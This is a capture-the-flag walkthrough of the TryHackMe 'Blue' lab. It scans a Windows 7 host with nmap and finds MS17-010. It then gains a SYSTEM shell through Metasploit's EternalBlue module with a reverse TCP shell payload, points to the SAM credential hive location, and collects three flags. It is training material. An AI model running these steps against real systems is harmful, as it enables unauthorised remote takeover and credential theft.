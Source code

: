 # Blue - THM

> Klismann Barros | February 27th, 2021

--------------------------------

First, as a way to facilitate everything, add to /etc/hosts: 

```shell
10.10.49.103    blue
```

## Nmap Scanning  - TERMINAL OUTPUT

### Command:

```shell
$ nmap -sC -sV -A -script vuln $blue

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-27 16:15 EST
Nmap scan report for 10.10.49.103
Host is up (0.20s latency).
Not shown: 983 closed ports
PORT      STATE    SERVICE            VERSION
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
444/tcp   filtered snpp
445/tcp   open     microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
1123/tcp  filtered murray
1163/tcp  filtered sddp
1658/tcp  filtered sixnetudr
2725/tcp  filtered msolap-ptp2
3389/tcp  open     ssl/ms-wbt-server?
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
9485/tcp  filtered unknown
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49158/tcp open     msrpc              Microsoft Windows RPC
49160/tcp open     msrpc              Microsoft Windows RPC
54045/tcp filtered unknown
55555/tcp filtered unknown
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.66 seconds
```

We can see that it is vulnerable to the MS17-010

><i>For further information about this vulnerability, click on the link: </i>
> <a href="https://www.trendmicro.com/en_us/research/17/f/ms17-010-eternalblue.html" target="_blanK">MS17-010</a>

So, let's exploit it

## Exploitation

```bash
$ msfconsole
```

This is the path for the exploitation code:

```bash
exploit/windows/smb/ms17_010_eternalblue
```

It says that we have to use this payload:

```bash
set payload windows/x64/shell/reverse_tcp
```

Now we have to fill the options that are missing.

And we gained the shell

```shell
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system <-

C:\Windows\system32>
```

Whohoa! We gained the system shell

### Now look after the flags

```shell
C:\Windows\System32>cd ..
cd ..

C:\Windows>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  01:27 PM                24 flag1.txt
07/13/2009  09:20 PM    <DIR>          PerfLogs
04/12/2011  02:28 AM    <DIR>          Program Files
03/17/2019  04:28 PM    <DIR>          Program Files (x86)
12/12/2018  09:13 PM    <DIR>          Users
03/17/2019  04:36 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,432,228,352 bytes free

C:\>
```

### First flag found!

An important thing to do, is to look were the password is stored on windows, so let's go.

```shell
C:\>cd Windows
cd Windows

C:\Windows>cd system32
cd system32

C:\Windows\System32>cd Config
cd Config

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Windows\System32\config

02/27/2021  01:43 PM    <DIR>          .
02/27/2021  01:43 PM    <DIR>          ..
12/12/2018  05:00 PM            28,672 BCD-Template
02/27/2021  01:53 PM        18,087,936 COMPONENTS
02/27/2021  02:13 PM           262,144 DEFAULT
03/17/2019  01:32 PM                34 flag2.txt
07/13/2009  08:34 PM    <DIR>          Journal
02/27/2021  02:12 PM    <DIR>          RegBack
02/27/2021  05:14 PM           262,144 SAM
02/27/2021  01:53 PM           262,144 SECURITY
02/27/2021  05:20 PM        40,632,320 SOFTWARE
02/27/2021  05:26 PM        12,582,912 SYSTEM
11/20/2010  08:41 PM    <DIR>          systemprofile
12/12/2018  05:03 PM    <DIR>          TxR
               8 File(s)     72,118,306 bytes
               6 Dir(s)  20,432,224,256 bytes free

C:\Windows\System32\config> 
```

### Normaly, passwords keeps stored at SAM, but we got the second flag.

Now let's go for the last one.

Always look after the users files.

```shell
C:\>cd Users
cd Users

C:\Users>cd Jon
cd Jon

C:\Users\Jon>cd Documents
cd Documents

C:\Users\Jon\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Users\Jon\Documents

12/12/2018  09:49 PM    <DIR>          .
12/12/2018  09:49 PM    <DIR>          ..
03/17/2019  01:26 PM                37 flag3.txt
               1 File(s)             37 bytes
               2 Dir(s)  20,431,695,872 bytes free

C:\Users\Jon\Documents>
```

### And we got the 3rd and last flag.
